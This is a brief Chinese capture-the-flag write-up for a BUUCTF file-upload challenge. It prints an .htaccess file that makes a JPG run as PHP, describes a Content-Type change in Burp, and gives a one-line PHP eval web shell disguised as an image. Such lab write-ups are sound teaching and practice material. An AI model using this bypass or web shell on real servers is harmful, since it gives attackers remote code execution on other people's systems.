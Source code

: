 # BUUCTF Web记录 4


已经到第4篇了，不容易啊

<!--more-->

## 0x00 [MRCTF2020]你传你🐎呢
[题目链接](https://buuoj.cn/challenges#[MRCTF2020]%E4%BD%A0%E4%BC%A0%E4%BD%A0%F0%9F%90%8E%E5%91%A2)

开头的日本人给我吓到了😅

![image-20210824192847310](image-20210824192847310.png "笑川の笑容")

试了一下，php/php2/php3/phtml什么的都传不了，jpg可以传

那么思路就比较明显了，又是上传`.htaccess`或者`.user.ini`文件来使得服务端将图片🐎当作php文件解析。

上传`.htaccess`文件，文件内容：

```
GIF89a
<FilesMatch "leo.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

这一步需要用Burp拦截请求，手动修改`Content-Type: application/octet-stream`为`Content-Type: image/png`。

然后上传`leo.jpg`，其中写入

```php
GIF89a
<script language='php'>@eval($_POST['ye']);</script>
```

蚁剑连接即可。




